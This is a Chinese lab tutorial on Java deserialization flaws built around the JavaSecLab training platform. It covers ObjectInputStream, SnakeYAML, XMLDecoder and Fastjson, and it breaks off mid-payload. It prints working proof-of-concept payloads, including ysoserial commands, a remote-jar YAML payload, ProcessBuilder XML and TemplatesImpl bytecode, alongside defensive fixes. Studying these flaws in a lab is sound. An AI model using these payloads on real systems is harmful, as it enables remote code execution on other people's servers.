# 基于JavaSecLab 一款综合Java漏洞平台的学习思考（二）-先知社区

> **来源**: https://xz.aliyun.com/news/16014  
> **文章ID**: 16014

---

## 起始

继续（一）的学习，本章将学习SnakeYaml，ObjectInputStream.readObject()，XMLDecoder，组件漏洞 - Fastjon反序列化，Shiro反序列化，XStream反序列化和Log4j2反序列化的简单漏洞分析和安全代码预防。



## 反序列化模块

下图简单易懂的解释了反序列化和序列化的过程



### ReadObject

```
序列化：将Java对象转换为字节序列的过程，便于保存在内存、文件、数据库中，ObjectOutputStream类的writeObject()方法可以实现序列化

  反序列化：指把字节序列恢复为Java对象的过程，ObjectInputStream类的readObject()方法用于反序列化

  反序列化漏洞：攻击者可以通过受影响的接口直接或间接地传入恶意的反序列化对象，从而造成任意代码执行

  Java中可分为：原生反序列化类(ObjectInputStream.readObject()、SnakeYaml、XMLDecoder)、三方组件反序列化(Fastjson、Jackson、Xstream……)
```

#### 漏洞环境：ObjectInputStream.readObject()

##### tips

```
ysoserial项目地址：https://github.com/frohoff/ysoserial
payload生成：java -jar ysoserial-all.jar CommonsCollections5 "open -a Calculator" | base64
```

##### 缺陷代码

```
public R vul(String payload) {
    try {
        payload = payload.replace(" ", "+");
        byte[] bytes = Base64.getDecoder().decode(payload);
        ByteArrayInputStream stream = new ByteArrayInputStream(bytes);
        java.io.ObjectInputStream in = new java.io.ObjectInputStream(stream);
        in.readObject();
        in.close();
        return R.ok("[+]Java反序列化：ObjectInputStream.readObject()");
    } catch (Exception e) {
        return R.error("[-]请输入正确的Payload！\n"+e.getMessage());
    }
}
```

payload的生成：java -jar ysoserial-all.jar CommonsCollections5 "whoami" | base64

  
执行成功

  
因为是搭的docker，所以无法弹计算器

#### 安全环境：关闭不安全的反序列化

##### tips

```
代码审计SINK点：
    1、JDK(ObjectInputStream.readObject)
    2、XMLDecoder.readObject
    3、Yaml.load
    4、XStream.fromXML
    5、ObjectMapper.readValue
    6、JSON.parseObject
```

##### 安全代码

```
public R safe1(String payload) {
    // 安全措施：禁用不安全的反序列化
    System.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "false");
    try {
        payload = payload.replace(" ", "+");
        byte[] bytes = Base64.getDecoder().decode(payload);
        ByteArrayInputStream stream = new ByteArrayInputStream(bytes);
        java.io.ObjectInputStream in = new java.io.ObjectInputStream(stream);
        in.readObject();
        in.close();
        return R.ok("[+]Java反序列化：ObjectInputStream.readObject()");
    } catch (Exception e) {
        return R.error("[-]请输入正确的Payload！\n"+e.getMessage());
    }
}
```

恶意代码执行失败



#### 安全环境：反序列化黑白名单

##### tips

```
ValidatingObjectInputStream：这是Apache Commons IO 提供的一个类，它允许在反序列化时指定可以接受的类或拒绝的类。通过accept/reject(Class) 方法，可以指定只允许/拒绝某些类进行反序列化。
```

#### 安全代码

```
public R safe2(String payload) {
    try {
        payload = payload.replace(" ", "+");
        byte[] bytes = Base64.getDecoder().decode(payload);
        ByteArrayInputStream stream = new ByteArrayInputStream(bytes);
        // 创建 ValidatingObjectInputStream 对象
        ValidatingObjectInputStream ois = new ValidatingObjectInputStream(stream);
        // 设置拒绝反序列化的类
        ois.reject(java.lang.Runtime.class);
        ois.reject(java.lang.ProcessBuilder.class);
        // 只允许反序列化Sqli类
        ois.accept(Sqli.class);
        ois.readObject();
        return R.ok("[+]Java反序列化：ObjectInputStream.readObject()");
    } catch (Exception e) {
        return R.error("[-]请输入正确的Payload！\n"+e.getMessage());
    }
}
```

恶意代码执行失败



### SnakeYaml

#### 介绍

> ```
> SnakeYAML是一个用于解析和生成YAML格式数据的流行Java库，支持YAML1.1和1.2规范，能够实现YAML与Java对象之间的序列化和反序列化
> 漏洞原理：yaml反序列化时可以通过!!+全类名指定反序列化的类，反序列化过程中会实例化该类，可以通过构造ScriptEngineManager payload并利用SPI机制通过URLClassLoader或者其他payload如JNDI方式远程加载实例化恶意类从而实现任意代码执行
> ```

#### 漏洞环境：SnakeYaml

##### tips

```
反序列化流程:
  1、导入依赖：使用Maven/Gradle项目时，首先添加SnakeYAML的依赖
  2、创建Yaml实例：使用Yaml类的实例来处理反序列化。可以通过无参构造函数创建，也可以通过传递一个Constructor来定制化反序列化的方式(如使用SafeConstructor提高安全性)
  3、调用load()方法：使用Yaml实例的load()方法，将YAML字符串或输入流转换为相应的Java对象
  4、处理反序列化后的对象：根据实际业务需求对反序列化后的对象进行处理
```

##### 缺陷代码

```
public R vul(String payload) {
    Yaml y = new Yaml();
    y.load(payload);
    return R.ok("[+]Java反序列化：SnakeYaml");
}

// payload示例
payload=!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ['http://127.0.0.1:7777/yaml-payload.jar']]]]
```

lab给了漏洞环境的连接，不过我们直接在本地打。

下载lab给的项目<https://github.com/artsploit/yaml-payload>

在yaml-payload-master\src\artsploit下的AwesomeScriptEngineFactory.java设计恶意代码

```
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("calc");

        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

然后执行项目给的命令

```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

jar包放到起的web服务目录下



运行代码：

```
package Snake;

import org.yaml.snakeyaml.Yaml;

public class test {
    public static void main(String[] args) {
        serialize();
        unserialize();
        String context = "!!javax.script.ScriptEngineManager [\n" +
                "!!java.net.URLClassLoader [[\n" +
                "!!java.net.URL [\"http://[::]:9000/yaml-payload.jar\"]\n" +
                "]]\n" +
                "]";

        try {
             // 默认构造器
            Yaml yaml = new Yaml();
            Object obj = yaml.load(context);
            System.out.println(obj);
        } catch (Exception e) {
            System.err.println("Failed to load YAML: " + e.getMessage());
            e.printStackTrace();
        }
    }
    public static void serialize(){
        User user = new User();
        user.setName("DawnT0wn");
        user.setAge(25);
        Yaml yaml = new Yaml();
        String str = yaml.dump(user);
        System.out.println(str);
    }
    public static void unserialize(){
        String str1 = "!!Snake.User {age: 25, name: DawnT0wn}";
        String str2 = "age: 25\n" +
                "name: DawnT0wn";
        Yaml yaml = new Yaml();
        yaml.load(str1);
        yaml.loadAs(str2, User.class);
    }

}
```

直接用项目给的命令会报错，

```
Failed to load YAML: Can't construct a java object for tag:yaml.org,2002:javax.script.ScriptEngineManager; exception=java.lang.reflect.InvocationTargetException
 in 'string', line 1, column 1:
    !!javax.script.ScriptEngineManager [
    ^

Can't construct a java object for tag:yaml.org,2002:javax.script.ScriptEngineManager; exception=java.lang.reflect.InvocationTargetException
 in 'string', line 1, column 1:
    !!javax.script.ScriptEngineManager [
    ^

    at org.yaml.snakeyaml.constructor.Constructor$ConstructYamlObject.construct(Constructor.java:335)
    at org.yaml.snakeyaml.constructor.BaseConstructor.constructObjectNoCheck(BaseConstructor.java:229)
    at org.yaml.snakeyaml.constructor.BaseConstructor.constructObject(BaseConstructor.java:219)
    at org.yaml.snakeyaml.constructor.BaseConstructor.constructDocument(BaseConstructor.java:173)
    at org.yaml.snakeyaml.constructor.BaseConstructor.getSingleData(BaseConstructor.java:157)
    at org.yaml.snakeyaml.Yaml.loadFromReader(Yaml.java:490)
    at org.yaml.snakeyaml.Yaml.load(Yaml.java:416)
    at Snake.test.main(test.java:18)
Caused by: org.yaml.snakeyaml.error.YAMLException: java.lang.reflect.InvocationTargetException
    at org.yaml.snakeyaml.constructor.Constructor$ConstructSequence.construct(Constructor.java:572)
    at org.yaml.snakeyaml.constructor.Constructor$ConstructYamlObject.construct(Constructor.java:331)
    ... 7 more
Caused by: java.lang.reflect.InvocationTargetException
    at sun.reflect.NativeConstructorAccessorImpl.newInstance0(Native Method)
    at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
    at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
    at java.lang.reflect.Constructor.newInstance(Constructor.java:422)
    at org.yaml.snakeyaml.constructor.Constructor$ConstructSequence.construct(Constructor.java:570)
    ... 8 more
Caused by: java.lang.UnsupportedClassVersionError: artsploit/AwesomeScriptEngineFactory has been compiled by a more recent version of the Java Runtime (class file version 61.0), this version of the Java Runtime only recognizes class file versions up to 52.0
    at java.lang.ClassLoader.defineClass1(Native Method)
    at java.lang.ClassLoader.defineClass(ClassLoader.java:760)
    at java.security.SecureClassLoader.defineClass(SecureClassLoader.java:142)
    at java.net.URLClassLoader.defineClass(URLClassLoader.java:467)
    at java.net.URLClassLoader.access$100(URLClassLoader.java:73)
    at java.net.URLClassLoader$1.run(URLClassLoader.java:368)
    at java.net.URLClassLoader$1.run(URLClassLoader.java:362)
    at java.security.AccessController.doPrivileged(Native Method)
    at java.net.URLClassLoader.findClass(URLClassLoader.java:361)
    at java.lang.ClassLoader.loadClass(ClassLoader.java:424)
    at java.lang.ClassLoader.loadClass(ClassLoader.java:357)
    at java.lang.Class.forName0(Native Method)
    at java.lang.Class.forName(Class.java:348)
    at java.util.ServiceLoader$LazyIterator.nextService(ServiceLoader.java:370)
    at java.util.ServiceLoader$LazyIterator.next(ServiceLoader.java:404)
    at java.util.ServiceLoader$1.next(ServiceLoader.java:480)
    at javax.script.ScriptEngineManager.initEngines(ScriptEngineManager.java:122)
    at javax.script.ScriptEngineManager.init(ScriptEngineManager.java:84)
    at javax.script.ScriptEngineManager.<init>(ScriptEngineManager.java:75)
    ... 13 more
```

发现问题是由于加载的 `artsploit/AwesomeScriptEngineFactory` 类是用比当前运行环境支持的更高版本的 JDK 编译的。

但是我的编译环境确实和运行环境一样的啊，不知道为什么。

不过我们直接用

```
javac -source 8 -target 8 src/artsploit/AwesomeScriptEngineFactory.java
```

即可正确编译



#### 安全环境：SafeConstructor安全构造

使用SafeConstructor()进行安全构造

```
SafeConstructor是SnakeYAM 提供的一个安全构造器，用于防止反序列化漏洞，确保只反序列化基本类型和安全的对象
```

##### 安全代码

```
public R vul(String payload) {
    Yaml y = new Yaml(new SafeConstructor());
    y.load(payload);
    return R.ok("[+]Java反序列化：SnakeYaml");
}

// payload示例
payload=!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ['http://127.0.0.1:7777/yaml-payload.jar']]]]
```

使用SafeConstructor()进行安全构造本地运行弹计算器就会报错，

```
Failed to load YAML: could not determine a constructor for the tag tag:yaml.org,2002:javax.script.ScriptEngineManager
 in 'string', line 1, column 1:
    !!javax.script.ScriptEngineManager [
    ^

could not determine a constructor for the tag tag:yaml.org,2002:javax.script.ScriptEngineManager
 in 'string', line 1, column 1:
    !!javax.script.ScriptEngineManager [
    ^

    at org.yaml.snakeyaml.constructor.SafeConstructor$ConstructUndefined.construct(SafeConstructor.java:574)
    at org.yaml.snakeyaml.constructor.BaseConstructor.constructObjectNoCheck(BaseConstructor.java:229)
    at org.yaml.snakeyaml.constructor.BaseConstructor.constructObject(BaseConstructor.java:219)
    at org.yaml.snakeyaml.constructor.BaseConstructor.constructDocument(BaseConstructor.java:173)
    at org.yaml.snakeyaml.constructor.BaseConstructor.getSingleData(BaseConstructor.java:157)
    at org.yaml.snakeyaml.Yaml.loadFromReader(Yaml.java:490)
    at org.yaml.snakeyaml.Yaml.load(Yaml.java:416)
    at Snake.test.main(test.java:20)
```

这个错误是因为 SnakeYAML 默认使用安全的 `SafeConstructor`，它禁止对未定义的类（例如 `javax.script.ScriptEngineManager`）进行反序列化。SnakeYAML 的安全模式会拒绝加载不明确定义的类，以防止潜在的安全漏洞。

### XMLDecoder

#### 介绍

```
XMLDecoder是Java标准库中提供的一个类，用于将XML格式的数据反序列化为Java对象。它是JavaBeans机制的一部分，能够将符合JavaBeans规范的XML文件解析为Java对象
```

#### 漏洞环境：xmlDecoder.readObject()

##### tips

```
用户输入被构建为包含ProcessBuilder对象的XML结构，并传入命令数组。生成的XML被XMLDecoder解析，反序列化后通过ProcessBuilder执行命令
```

##### 缺陷代码

```
public R vul(String payload) {
    String[] strCmd = payload.split(" ");
    StringBuilder xml = new StringBuilder()
            .append("<?xml version=\"1.0\" encoding=\"UTF-8\"?>")
            .append("<java version=\"1.8.0_151\" class=\"java.beans.XMLDecoder\">")
            .append("<object class=\"java.lang.ProcessBuilder\">")
            .append("<array class=\"java.lang.String\" length=\"").append(strCmd.length).append("\">");
    for (int i = 0; i < strCmd.length; i++) {
        xml.append("<void index=\"").append(i).append("\"><string>")
                .append(strCmd[i]).append("</string></void>");
    }
    xml.append("</array><void method=\"start\" /></object></java>");
    try {
        new java.beans.XMLDecoder(new ByteArrayInputStream(xml.toString().getBytes(StandardCharsets.UTF_8)))
                .readObject().toString();
        return R.ok("命令执行成功");
    } catch (Exception e) {
        return R.error("命令执行失败: " + e.getMessage());
    }
}
```

先在本地用几个例子来方便理解

```
package org.example;
import java.beans.XMLEncoder;
import java.io.IOException;
import java.util.ArrayList;
import java.util.HashMap;


public class Test {

    public static void main(String[] args) throws IOException, InterruptedException {

        HashMap<Object, Object> map = new HashMap<>();
        map.put("564645","aaaa654");
        map.put("321",new ArrayList<>());

        XMLEncoder xmlEncoder = new XMLEncoder(System.out);
        xmlEncoder.writeObject(map);
        xmlEncoder.close();

    }
}
```

这是一段用 XMLEncoder 生成 hashmap 对象 xml 的代码。



```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_65" class="java.beans.XMLDecoder">
 <object class="java.util.HashMap">
  <void method="put">
   <string>321</string>
   <object class="java.util.ArrayList"/>
  </void>
  <void method="put">
   <string>564645</string>
   <string>aaaa654</string>
  </void>
 </object>
</java>
```

再拿这个生成的xml，用XMLDecoder解析

```
package org.example;
import java.beans.XMLEncoder;
import java.beans.XMLDecoder;
import java.io.IOException;
import java.io.StringBufferInputStream;
import java.util.ArrayList;
import java.util.HashMap;


public class Test {

    public static void main(String[] args) throws IOException, InterruptedException {
        String s = "<java version=\"1.8.0_131\" class=\"java.beans.XMLDecoder\">\n" +
                " <object class=\"java.util.HashMap\">\n" +
                "  <void method=\"put\">\n" +
                "   <string>321</string>\n" +
                "   <object class=\"java.util.ArrayList\"/>\n" +
                "  </void>\n" +
                "  <void method=\"put\">\n" +
                "   <string>564645</string>\n" +
                "   <string>aaaa654</string>\n" +
                "  </void>\n" +
                " </object>\n" +
                "</java>";
        StringBufferInputStream stringBufferInputStream = new StringBufferInputStream(s);
        XMLDecoder xmlDecoder = new XMLDecoder(stringBufferInputStream);
        Object o = xmlDecoder.readObject();
        System.out.println(o);

    }
}
```

得到，

```
{321=[], 564645=aaaa654}
```

看到标签里指定了类名，方法名，参数等信息，自然而然我们就想到去构造恶意代码了。

这里举两个例子

```
<java version="1.8.0_131" class="java.beans.XMLDecoder">
 <object class="java.lang.ProcessBuilder">
  <array class="java.lang.String" length="1">
    <void index="0"><string>calc</string></void>
  </array>
  <void method="start"></void>
 </object>
</java>
```

比如这就是一个执行 calc 命令的 payload。看代码里的 object 标签，class 的值就是要被实例化的全类名。array 标签里就是 ProcessBuilder 对象的构造参数。然后 void 标签指定了 method 参数为 start，这些加起来，相当于执行了

```
new java.lang.ProcessBuilder(new String[]{"calc"}).start();
```

```
<java version="1.4.0" class="java.beans.XMLDecoder">
<object class="java.io.PrintWriter">
<string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/a.jsp</string>
<void method="println">
<string><![CDATA[ blue ]]></string>
</void><void method="close"/>
</object>
</java>
```

相当于执行了

```
java.io.PrintWriter x = new java.io.PrintWriter("servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/a.jsp");
    x.println("blue");
    x.close();
```

再来看lab，缺陷代码中构造了危险的xml，接受无过滤的危险payload。随便输入危险命令就可以了。



#### 安全代码：使用SAX替换XMLDecoder

##### tips

```
SAX:事件驱动的特性和内存管理方式，更加安全，适合处理不受信任的数据
XMLDecoder:由于反序列化过程的性质，存在较高的安全风险，建议仅在处理可信数据时使用
```

安全代码

```
public R safe(@RequestParam String payload) {
    //@RequestParam String payload：表示这是一个 Spring 框架的请求参数，从用户请求中获取payload。
    try {
        // 构建 XML 字符串
        ...
        // 使用 SAX 解析器解析 XML
        SAXParserFactory factory = SAXParserFactory.newInstance();
        SAXParser saxParser = factory.newSAXParser();
        CommandHandler handler = new CommandHandler();
        // 将 ByteArrayInputStream 包装成 InputSource
        InputSource inputSource = new InputSource(new ByteArrayInputStream(xml.toString().getBytes(StandardCharsets.UTF_8)));
        saxParser.parse(inputSource, handler);
        // 获取解析后的命令参数
        List<String> args = handler.getArgs();
        // 处理解析后的命令参数
        System.out.println("Parsed command: " + String.join(" ", args));
        return R.ok("[+]命令解析成功:"+String.join(" ", args));
    } catch (Exception e) {
        return R.error("[-]命令解析失败: " + e.getMessage());
    }
}
```

  
可以看到危险命令没有执行，而是成功安全解析。

## 组件漏洞



### 组件漏洞 - Fastjon反序列化

[W01fh4cker/LearnFastjsonVulnFromZero-Basic: 【两万字原创】零基础学fastjson漏洞（基础篇），公众号：追梦信安](https://github.com/W01fh4cker/LearnFastjsonVulnFromZero-Basic)

#### 介绍

```
Fastjson是阿里巴巴开源JSON解析库，用于将Java对象与JSON数据之间进行快速转换。在版本[1.2.22,1.2.83]之间Fastjson存在多个反序列化漏洞

  Fastjson在对JSON字符串进行反序列化的时候，会读取@type的内容，试图把JSON内容反序列化成这个对象，并且会调用这个类的set方法，攻击者利用这个特征，构造一个JSON字符串，并且使用@type反序列化一个自己想要的攻击类库
```

#### 漏洞环境

##### tips

```
这里通过DNS盲打来检测应用是否存在Fastjson反序列化漏洞(不代表漏洞可以被利用)。具体利用通常需要借助RMI、JNDI等协议，攻击者通过这些协议可以进一步触发远程代码执行等攻击行为
```

##### 缺陷代码

```
public String vul(@RequestBody String content) {
    try {
        JSONObject jsonObject = JSON.parseObject(content);
        return jsonObject.toString();
    } catch (Exception e) {
        return e.getMessage();
    }
}

<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.37</version>
</dependency>
```

payload:

```
{"test":{"@type":"java.net.Inet4Address","val":"efw2e2.dnslog.cn"}}
```

  
看到测试成功，dns盲打成功



##### 这里简单在本地复现下fastjson<=1.2.24 反序列化漏洞（CVE-2017-18349）

首先创建一个`maven`项目、导入`Fastjson1.2.23`并自动下载相关依赖

然后写入以下代码：

```
package org.example.json;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJson {
    public static void main(String[] args) {
        ParserConfig config = new ParserConfig();
        String text = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",\"_bytecodes\":[\"yv66vgAAADIANAoABwAlCgAmACcIACgKACYAKQcAKgoABQAlBwArAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAtManNvbi9UZXN0OwEACkV4Y2VwdGlvbnMHACwBAAl0cmFuc2Zvcm0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHAC0BAARtYWluAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgEABGFyZ3MBABNbTGphdmEvbGFuZy9TdHJpbmc7AQABdAcALgEAClNvdXJjZUZpbGUBAAlUZXN0LmphdmEMAAgACQcALwwAMAAxAQAEY2FsYwwAMgAzAQAJanNvbi9UZXN0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAE2phdmEvaW8vSU9FeGNlcHRpb24BADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BABNqYXZhL2xhbmcvRXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAUABwAAAAAABAABAAgACQACAAoAAABAAAIAAQAAAA4qtwABuAACEgO2AARXsQAAAAIACwAAAA4AAwAAABEABAASAA0AEwAMAAAADAABAAAADgANAA4AAAAPAAAABAABABAAAQARABIAAQAKAAAASQAAAAQAAAABsQAAAAIACwAAAAYAAQAAABcADAAAACoABAAAAAEADQAOAAAAAAABABMAFAABAAAAAQAVABYAAgAAAAEAFwAYAAMAAQARABkAAgAKAAAAPwAAAAMAAAABsQAAAAIACwAAAAYAAQAAABwADAAAACAAAwAAAAEADQAOAAAAAAABABMAFAABAAAAAQAaABsAAgAPAAAABAABABwACQAdAB4AAgAKAAAAQQACAAIAAAAJuwAFWbcABkyxAAAAAgALAAAACgACAAAAHwAIACAADAAAABYAAgAAAAkAHwAgAAAACAABACEADgABAA8AAAAEAAEAIgABACMAAAACACQ=\"],'_name':'a.b','_tfactory':{ },\"_outputProperties\":{ }}";
        Object obj = JSON.parseObject(text, Object.class, config, Feature.SupportNonPublicField);
    }
}
```

运行后就会弹出计算器，



##### 分析：

上面的`text`里面的`_bytecodes`的内容是以下内容编译成字节码文件后（`.class`）再`base64`编码后的结果：

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Test extends AbstractTranslet {
    public Test() throws IOException {
        Runtime.getRuntime().exec("calc");
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```

这里直接借用W01fh4cker佬的解释：可以看到，我们通过以上代码直接定义类`Test`，并在类的构造方法中执行`calc`的命令；至于为什么要写上述代码的第`14`-`21`行，因为`Test`类是继承`AbstractTranslet`的，上述代码的两个`transform`方法都是实现`AbstractTranslet`接口的抽象方法，因此都是需要的；具体来说的话，第一个`transform`带有`SerializationHandler`参数，是为了把`XML`文档转换为另一种格式，第二个`transform`带有`DTMAxisIterator`参数，是为了对`XML`文档中的节点进行迭代。  
**总结：**对于上述代码，应该这么理解：建立`Test`类，并让其继承`AbstractTranslet`类，然后通过`Test t = new Test();`来初始化，这样我就是假装要把`xml`文档转换为另一种格式，在此过程中会触发构造方法，而我在构造方法中的代码就是执行`calc`，所以会弹出计算器。

##### 至于为什么要继承`AbstractTranslet`类？

简单的说这里面有一条危险的利用链

```
TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()
```

我们继承`AbstractTranslet`类就是为了想方设法的调用它。

细节的链子分析去看结尾的参考文章。

基于链子，可以写出如下poc：

```
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import java.util.Base64;

public class Main {
    public static class test{
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass cc = pool.get(test.class.getName());

        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";

        cc.makeClassInitializer().insertBefore(cmd);

        String randomClassName = "W01fh4cker" + System.nanoTime();
        cc.setName(randomClassName);

        cc.setSuperclass((pool.get(AbstractTranslet.class.getName())));

        try {
            byte[] evilCode = cc.toBytecode();
            String evilCode_base64 = Base64.getEncoder().encodeToString(evilCode);
            final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
            String text1 = "{"+
                    "\"@type\":\"" + NASTY_CLASS +"\","+
                    "\"_bytecodes\":[\""+evilCode_base64+"\"],"+
                    "'_name':'W01h4cker',"+
                    "'_tfactory':{ },"+
                    "'_outputProperties':{ }"+
                    "}\n";
            ParserConfig config = new ParserConfig();
            Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

发现无法识别javassist，增加依赖，

```
<dependency>
    <groupId>org.javassist</groupId>
    <artifactId>javassist</artifactId>
    <version>3.29.2-GA</version> <!-- 请使用最新版本 -->
</dependency>
```

这段代码就可以动态生成恶意类，执行效果如下：

  
具体的分析就去看参考文章

这里只展示基础的实操

#### 安全环境

##### tips

```
安全编码规范:
    1、升级版本至1.2.83及以上
    2、禁用AutoType或者是设置特定类白名单进行反序列化
    3、使用SafeMode模式
    4、使用@JSONType注解限制类的反序列化
```

##### 安全代码

```
public String safe(@RequestBody String content) {
    try {
        // 1、禁用 AutoType
        ParserConfig.getGlobalInstance().setAutoTypeSupport(false);
        // 2、使用AutoType白名单机制
//            ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
//            ParserConfig.getGlobalInstance().addAccept("top.whgojp.WhiteListClass");
        // 3、1.2.68之后的版本，Fastjson真家里safeMode的支持
//            ParserConfig.getGlobalInstance().setSafeMode(true);
//            JSONObject jsonObject = JSON.parseObject(content, Feature.DisableSpecialKeyDetect);
        JSONObject jsonObject = JSON.parseObject(content);
        return jsonObject.toString();
    } catch (Exception e) {
        return e.getMessage();
    }
}
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.83版本以上</version>
</dependency>
```

输入上面base64编码的payload：

```
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADIANAoABwAlCgAmACcIACgKACYAKQcAKgoABQAlBwArAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAtManNvbi9UZXN0OwEACkV4Y2VwdGlvbnMHACwBAAl0cmFuc2Zvcm0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHAC0BAARtYWluAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgEABGFyZ3MBABNbTGphdmEvbGFuZy9TdHJpbmc7AQABdAcALgEAClNvdXJjZUZpbGUBAAlUZXN0LmphdmEMAAgACQcALwwAMAAxAQAEY2FsYwwAMgAzAQAJanNvbi9UZXN0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAE2phdmEvaW8vSU9FeGNlcHRpb24BADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BABNqYXZhL2xhbmcvRXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50a